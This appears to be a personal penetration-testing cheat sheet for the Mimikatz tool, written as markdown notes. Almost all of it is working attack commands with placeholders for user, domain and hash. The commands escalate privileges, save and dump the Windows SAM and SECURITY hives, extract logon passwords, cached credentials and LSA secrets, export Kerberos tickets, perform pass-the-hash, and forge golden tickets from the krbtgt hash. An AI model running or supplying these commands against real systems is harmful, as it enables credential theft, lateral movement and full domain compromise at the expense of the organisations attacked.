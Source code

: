 # MIMIKATZ
#escalate
```sh
privilege::debug
token::elevate
```

#sam
```
1. from cmd/powershell dumb sam and secureity files
reg save hklm\sam sam.hiv
reg save hklm\security security.hiv

2. start mimikatz then escelate
privilege::debug
token::elevate

3. log output
log hash.txt

4. dump hashes
lsadump::sam sam.hiv security.hiv
```

#other_passwords
```sh
sekurlsa::logonpasswords      # privilege::debug required
lsadump::cache
lsadump::sam                  # token::elevate + privilege::debug required
lsadump::lsa /patch           # privilege::debug required
![[Pasted image 20230512010509.png]]```

#tickets
```sh
sekurlsa::tickets /export
kerberos::list /export
```

#pass_the_hash
```sh
sekurlsa::pth /user:[username] /domain:[domain] /ntlm:[hash] /run:[command]
```

#golden_ticket
```sh
lsadump::lsa /inject /name:krbtgt
kerberos::golden /domain:[domain] /sid:[sid of user forging the ticket] /rc4:[hash] /user:[any user] /id:500 /ptt
```
[[GOLDEN TICKET]]


#misc
```sh
misc::cmd
```
